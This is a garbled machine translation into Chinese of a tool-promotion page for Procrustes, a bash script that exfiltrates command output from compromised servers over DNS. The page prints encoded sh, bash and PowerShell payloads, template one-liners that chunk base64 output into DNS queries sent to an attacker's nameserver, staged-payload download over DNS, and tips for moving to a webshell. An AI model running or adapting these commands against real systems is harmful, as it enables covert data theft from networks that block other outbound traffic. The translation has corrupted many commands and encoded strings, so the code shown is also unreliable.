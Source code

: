 # Procrustes:通过 DNS 自动过滤数据的脚本

> 原文：<https://kalilinuxtutorials.com/procrustes/>

[![Procrustes : Script To Automates The Exfiltration Of Data Over DNS](img/40a516caf7da0cbfc0bc6523f3abfdcc.png "Procrustes : Script To Automates The Exfiltration Of Data Over DNS")](https://1.bp.blogspot.com/-9Oewr4LrKrc/YE2umsNjgWI/AAAAAAAAIgg/MJlCkSxNK9w6bNRCLdHu6aaT9yk1omZtACLcBGAsYHQ/s1307/procrustes-1.gif)

Procrustes 是一个 bash 脚本，如果我们在一个服务器上盲目执行命令，除了 dns 之外的所有出站连接都被阻塞，它会自动通过 DNS 过滤数据。

该脚本目前支持 sh、bash 和 powershell，并且兼容 exec 风格的命令执行(例如 java.lang.Runtime.exec)。

*   **未暂存:**

![Procrustes : Script To Automates The Exfiltration Of Data Over DNS](img/40a516caf7da0cbfc0bc6523f3abfdcc.png "Procrustes : Script To Automates The Exfiltration Of Data Over DNS")

*   **暂存:**

![](img/6d5962877b3140f102bd2fb035509b36.png)

对于其操作，脚本将我们希望在目标服务器上运行的命令作为输入，并根据目标 shell 对其进行转换，以便允许其输出通过 DNS 进行渗透。在命令被转换之后，它被提供给“调度程序”。调度程序是由用户提供的程序，负责将命令作为输入，并通过任何必要的手段(例如利用漏洞)在目标服务器上执行该命令。在目标服务器上执行该命令后，预计它会触发对我们的 DNS 名称服务器的 DNS 请求，其中包含我们的数据块。脚本监听这些请求，直到用户提供的命令的输出被完全提取。

以下是支持的命令转换，为命令的执行而生成:`ls`

*   上海:

sh -c $@|base64${IFS}-d|sh。echo igrpzybamcardhjpzxm 9 nsbgkgxzkxxiyxnlnjqglxcwfhdjic 1 jyc 5 szw 4 njazntqxmtc 4 ndoyxrldi5 lcgo =

*   bash:

bash -c {echo，ig 5 zgb9 va 3 vwigabhgggggggggggghc 2u 2 ncatdzb 8 D2 mglwngmrxlbi 4 xnjamdmwntynldoyxrldi 5 lcgo = } | { base 64，-d}|bash

*   powershell:

**powershell-enc ugblahmabwabzqaqabgbzaae 4 ayqbtaguayaagaagaiagb7 adaafqauahsamqb9ac 4 aewayah 0 aiga 0 azgagacgawwbdag 8 abgn 2 agagagaggb0 af 0 aoga 6 afqabwabwabagyanahqacgbpg 4 azwaoafswb 5 Ahmad abag 0 algbuaguaaeab 0 AC 4 arqbumambkagbgbnaf 0 aoga 6**

**用途**

*   bash 的本地测试:

**。/procrustos _ chunked . sh-h whatev . er-d " dig @ 0+tries = 5 "-x dispatcher _ examples/local _ bash . sh—' ls-lha | grep secret '<<(STD buf-oL tcpdump–immediate-l-I any UDP port 53)**

*   使用 WSL2 对 powershell 进行本地测试:

**stdbuf-oL tcpdump–immediate-l-I 任何 udp 端口 53|。/procrustos _ chunked . sh-w PS-h whatev . er-d " Resolve-DNS Name-Server wsl 2 _ IP-Name "-x dispatcher _ examples/local _ powershell _ wsl 2 . sh—' gci | % { $ _。名称}'**

*   powershell 示例，其中我们 ssh 到我们的 NS 来获取传入的 DNS 请求。

**。/procrustos _ chunked . sh-w PS-h your DNS . host-d " Resolve-DNS name "-x dispatcher _ examples/curl _ waf . sh—' gci | % { $ _。名称} '<<(stdbuf-oL ssh user @ HOST ' sudo tcpdump–immediate-l UDP port 53 ')**

*   关于选项的更多信息

**。/procrustos _ chunked . sh–help**

**procure _ chunked vs procure _ full**

简而言之，假设我们要解密一些数据，这些数据必须分成四个数据块才能通过 DNS 传输:

*   **procrustos _ Chunked:**调用调度程序四次，每次都从服务器请求不同的块。它的有效载荷相对较小，速度很快，不需要任何特殊的配置。
*   **procrustos _ Full:**调用调度程序一次，将在服务器上执行的命令将负责分块数据并将它们发送过来。它可以有更大的有效负载大小，它很快(速度可以通过-t 参数来调整)，并且当 dns_server 在名称服务器上运行时，它的速度可以进一步优化。
*   **proc routes _ Full/Staged:**与 proc routes _ Full 相同，但是使用 stager 来获取 proc routes _ Full 用来分块数据的命令。它具有最小的“有效负载”大小，但就渗出率而言也是最慢的，因为实际的有效负载是通过 DNS 下载的。对于其操作，需要创建一个 nsconfig 脚本。注意:每个名称服务器(而不是每个目标服务器)只应创建一次 nsconfig 脚本。

它们之间的一些差异也可以通过 bash 使用的模板命令来说明:

*   **普罗克罗斯特斯 _chunked/bash:**

**% DNS _ TRIGGER % `(% CMD %)| base64-w0 | cut-b $((% INDEX %+1))-$((% INDEX %+% COUNT %))' `。%UNIQUE_DNS_HOST%**

*   **普罗克罗斯特斯 _full/bash:**

**(% CMD %)| base64-w0 | echo $(cat)–| grep-Eo '。{1，% LABEL _ SIZE % } ' | xargs-n % n labels % echo | tr ' '。|awk '{printf "%s.%s%s\n "，$1，NR，" % UNIQUE _ DNS _ HOST % " } ' | xargs-P % THREADS %-n1 % DNS _ TRIGGER %**

*   **procrustos _ full/bash/staged:**

(序列%迭代% | % S _ DNS _ TRIGGGER % $(目录)。%UNIQUE_DNS_HOST%|tr\ | printf % 02x $(cat)| xxd-r-p)| bash

|  | 普罗克罗斯特斯 _chunked | 普罗克罗斯特斯 _full | 普罗克罗斯特斯 _ 完整 _ 上演 |
| --- | --- | --- | --- |
| 负载大小开销(bash/powershell) | 150 * NLABELS/500 * NLABELS(+CMD _ LEN) | 300/800+CMD _ LEN | 150/400[1] |
| 调度员呼叫# | # output/(LABEL _ SIZE * NLABELS)[2] | one | one |
| 速度(bash/powershell) | ✔/✔ | ✔/✔ | 【三】 |
| 配置难度 | 容易的 | 轻松+ | 媒介 |

*   对于分阶段版本，该命令是通过 DNS 下载的，因此列出的大小也是总负载大小。
*   在 procroustes _ chunked 上，dispatcher 被多次调用，因此提供的命令应该在服务器上执行(直到它的所有输出都被渗透)。在向服务器传送命令(即通过调用调度程序)是时间/资源密集型的情况下，这种行为并不理想。

如果我们在服务器上执行的命令不是等幂的(功能或输出方面，例如“ls；rm 文件”)或者是时间/资源密集型的(例如，find / -name secret)。这种情况的解决方法是首先将命令输出存储到一个文件中(例如/tmp/file ),然后使用脚本读取该文件。

*   在分阶段版本中，我们有通过 DNS 获得实际有效负载所需的时间开销。应该注意的是，该脚本利用 A 记录来获取实际的有效负载。尽管这允许我们的流量更好地融入目标环境的常规流量，但它提供了有限的通道容量(例如，每个请求 4 个字节)。我们可以利用其他记录类型，如 TXT，并最小化阶段下载时间(接近于零)和阶段大小。

**提示**

*   您可能希望尽可能少地使用这个脚本，尽可能快地过渡到更高带宽的通道(例如 HTTP-webshell)
*   如果需要长文本输出，您可以先尝试压缩它，以加快导出过程，例如。/procrustes _ full . sh…-o >(setsid gunzip)—' ls-lhR/| gzip '
*   大文件/二进制文件的另一种可能性是将它们复制到一个可访问的路径，例如通过 HTTP
*   要增加 procrustes_full 中的 exfil 带宽，请在您的名称服务器上运行 dns_server。这样，我们可以避免在移动到新的块之前等待底层 DNS_TRIGGER 超时。
*   理想情况下，您应该有一个带有 NS 记录的域(-h 选项)，该记录指向您控制的服务器(我们运行 tcpdump 的服务器)。然而，如果允许目标启动到任意 DNS 服务器的连接，这可以通过将 DNS 触发器显式设置为使用我们的 DNS 服务器来避免(例如 dig @your_server whatev.er)

**学分**

*   [collab filter](https://github.com/0xC01DF00D/Collabfiltrator)–在服务器上分块数据的想法。它还使用这个脚本执行类似的功能，所以请检查一下。
*   [DNS livery](https://github.com/no0be/DNSlivery)–DNS livery 的修改版本被用作 DNS 服务器

[**Download**](https://github.com/vp777/procrustes)